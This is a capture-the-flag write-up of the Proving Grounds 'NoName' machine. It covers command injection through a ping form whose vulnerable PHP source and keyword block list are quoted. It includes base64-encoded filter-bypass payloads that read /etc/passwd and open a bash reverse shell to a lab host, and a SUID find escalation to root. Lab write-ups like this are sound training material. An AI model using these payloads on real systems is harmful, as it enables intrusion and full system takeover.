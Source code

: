 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil.png
---
```



## NMAP

PORT   STATE SERVICE
80/tcp open  http


## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 



![](2022-07-27-15-23-21.png)

- Checking burp request 

![](2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked

![](2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](2022-07-27-16-26-33.png)

- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        ![](2022-07-27-16-48-44.png)

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](2022-07-27-16-46-09.png)

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](2022-07-27-16-52-16.png)

- `find . -exec /bin/sh \; -quit`

- and we are root.

![](2022-07-27-16-54-22.png)


